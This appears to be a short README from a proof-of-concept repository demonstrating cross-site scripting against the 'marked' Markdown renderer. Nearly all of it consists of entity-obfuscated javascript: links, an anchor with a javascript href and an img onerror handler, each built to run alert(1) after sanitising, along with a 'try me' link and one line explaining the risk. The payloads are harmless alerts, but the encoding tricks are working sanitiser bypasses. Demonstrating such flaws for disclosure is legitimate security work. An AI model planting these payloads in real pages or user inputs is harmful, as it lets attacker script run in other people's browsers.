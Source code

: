 # marked-expoit
Find expoit in marked trough README.md

This is a [A funny link](javascript&#x58document;alert&#40;1&#41);

I can try to use some <a href="javascript&#x58document;alert&#40;1&#41">HTML IN HERE AS WELL</a>


<img onerror="&#x58document;alert&#40;1&#41" src="foo.gif" />


If a malicious user could provide this input to the application javascript&#x58document;alert&#40;1&#41; resulting in a valid link, that when a user clicked it would execute alert(1).

[try me](javascript&#x58document;alert&#40;1&#41;)

